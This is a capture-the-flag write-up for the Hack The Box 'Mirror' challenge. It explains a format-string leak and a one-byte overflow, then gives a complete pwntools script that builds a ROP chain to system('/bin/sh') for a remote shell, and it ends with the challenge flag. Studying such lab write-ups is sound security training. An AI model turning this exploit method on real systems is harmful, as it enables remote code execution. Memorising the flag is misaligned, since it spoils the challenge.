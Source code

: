 # Mirror

The application has two vulnerabilities which allow to gain remote code execution. The first is user-controlled format string which provides the attacker with an ability to read arbitrary stack values.
Using this vulnerability, it is possible to calculate binary base address as there is QWORD on stack which value has fixed offset inside the binary. This value is used later.
Next the binary leaks rax value and printf_address. First value is used to calculate stack alignment and find appropriate value used as one-byte overwrite in the next vulnerability. Second value allows to determine libc base address and, consequently, addresses of /bin/sh string and system function inside libc. Exact version of libc was found with libc database – thanks to the fact that same functions in different libc versions have different last 1,5 bytes.
The main vulnerability is in function reveal. The binary overflows the buffer with one byte. Thus, using rax value, it is possible to determine location of user-controlled string and use ordinary ROP-chain to gain remote code execution. There is no seccomp protection in the task.
The following code will give us an interactive shell:

```Python
from pwn import *
context.terminal = ['terminator', '-e']
def hex_to_number(S):
    binary_address = bytes.fromhex(S.decode()[2:])
    while len(binary_address) < 8:
        binary_address = b"\x00" + binary_address
    binary_address = u64(binary_address, endian='big')
    return binary_address
io = remote("docker.hackthebox.eu", 30326)
d = io.recvuntil(b"> ")
print(d)
io.sendline(b"y "+b"%p %10$p")
d = io.recvline()
print(d)
binary_address = d.strip().split(b' ')[-1]
binary_address = hex_to_number(binary_address)
binary_delta = 0x1330
binary_base = binary_address - binary_delta
print("Binary base:", hex(binary_base))
print(d)
d = io.recvuntil(b"craftsman.. ")
print(d)
d = io.recvline()
print(d)
address1 = d.split(b" ")[0][1:-1]
rax = hex_to_number(address1)
address2 = d.split(b" ")[1][1:-3]
printf_address = hex_to_number(address2)
print(hex(rax), hex(printf_address))
off_byte = (rax & 0xff) - 0x08
print(off_byte)
d = io.recv()
print(d)    
pop_rdi_delta = 0x0000000000001393
pop_rdi_address = binary_base + pop_rdi_delta
bin_sh_address = printf_address + 0x131d3c
system_address = printf_address - 0xdbd0
bin_sh_address = printf_address + 0x14eeaa
system_address = printf_address - 0x15a20
payload = p64(pop_rdi_address) + p64(bin_sh_address) + p64(system_address) + b"A"*8 + off_byte.to_bytes(1, byteorder='little')
io.sendline(payload)
io.sendline("ls")
io.interactive()
```

The successful exploitation can be seen on Figure 1.
 
![](pictures/2021-03-07-22-54-53.png)

Figure 1 – The successful exploitation

Flag: HTB{0n3_byt3_cl0s3r_2_v1ct0ry}.
